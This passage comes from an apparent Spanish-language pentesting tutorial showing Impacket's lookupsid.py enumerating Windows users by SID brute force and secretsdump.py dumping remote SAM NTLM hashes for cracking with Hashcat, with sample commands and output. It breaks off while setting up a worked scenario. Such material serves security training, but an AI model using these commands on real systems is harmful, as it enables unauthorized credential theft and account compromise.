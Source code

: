 Este script intenta resolver SIDs a usuarios y grupos de una máquina Windows.

##### 🔹 Sintaxis:

```bash
lookupsid.py soporte:soporte123@192.168.1.10
```

📋 Resultado típico:

```
[*] Brute forcing SIDs at 192.168.1.10
S-1-5-21-...-500 Administrador
S-1-5-21-...-501 Invitado
S-1-5-21-...-1001 soporte
```

Con esto ves qué usuarios existen en esa máquina.

---

#### 🔧 3. **Extraer hashes con `secretsdump.py` (Impacket)**

Si tienes acceso de administrador, puedes volcar los hashes de la SAM remota:

```bash
secretsdump.py soporte:soporte123@192.168.1.10
```

📥 Resultado:

```
Administrator:500:aad3b435...:8846f7ea...:::
soporte:1001:aad3b435...:7c4a8d09...:::
```

Estos son los **hashes NTLM**, que puedes crackear con `Hashcat`.

---

### 📦 EJEMPLO COMPLETO

---

#### 🎓 Escenario:

Tienes acceso a la red interna. Encuentras una máquina Windows con IP `192.168.1.15`.
Tienes credenciales:

- Usuario: `admin_local`
- Contraseña: `Admin123`

Quieres:

✅ Ver los usuarios de la máquina

✅ Ver sus SID y nombres

✅ Extraer hashes de SAM

---